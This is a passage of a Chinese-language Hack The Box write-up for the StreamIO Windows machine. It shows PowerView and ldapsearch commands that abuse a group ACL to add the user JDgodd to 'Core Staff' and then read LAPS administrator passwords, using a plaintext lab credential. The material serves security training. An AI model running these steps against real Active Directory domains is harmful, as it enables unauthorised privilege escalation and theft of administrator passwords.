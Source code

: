 该权限可以修改组的所有者

```powershell
#每次使用前需要改密码域名
upload powerview.ps1
Import-Module powerview.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```

`Add-DomainObjectAcl`该函数不可用就是因为模块没有导入，检查该模块是否导入的方法

```
检查已存在的模块
Get-Module
```

![image-20250519172557794](./StreamIO-Windows/image-20250519172557794.png)

`JDgodd`成员现在已经成为核心成员

现在可以从计算机对象的 `ms-MCS-AdmPwd` 属性中读取 LAPS 密码：

```
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

或者，此密码也可以从我的主机通过 JDgodd 凭证从 LDAP 中读取（一旦用户在核心员工组中）：

```
ldapsearch -H ldap://10.10.11.158:389 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

![image-20250519173125201](./StreamIO-Windows/image-20250519173125201.png)
